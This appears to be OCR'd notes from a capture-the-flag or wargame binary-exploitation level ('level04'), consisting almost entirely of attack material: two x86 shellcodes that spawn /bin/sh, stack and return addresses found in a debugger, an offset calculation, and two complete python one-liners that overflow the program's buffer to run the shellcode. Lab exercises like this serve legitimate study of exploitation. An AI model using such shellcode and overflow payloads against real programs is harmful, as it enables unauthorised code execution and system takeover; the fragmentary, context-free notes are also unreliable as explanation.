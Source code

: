 

set follow-fork-mode child

\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80

'\xeb\x0d\x5f\x31\xc0\x50\x89\xe2\x52\x57\x54\xb0\x3b\xcd\x80\xe8\xee\xff\xff\xff/bin/sh'

0xffffd670

/home/users/level04/level04 <<< $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80\x08\x04\xa0\x47' + '\xFF'*(156 - 24 - 4) + '\x70\xd6\xff\xff')")

27 octets:
/home/users/level04/level04 <<< $(python -c "print('\xeb\x0d\x5f\x31\xc0\x50\x89\xe2\x52\x57\x54\xb0\x3b\xcd\x80\xe8\xee\xff\xff\xff/bin/sh' + '\xFF'*(156 - 31 - 4) + '\x70\xd6\xff\xff')")

ret adress
0xf7e45513


stack tab start
0xffffd670

stck ret
0xffffd70c

0xffffd70c - 0xffffd670 = 156
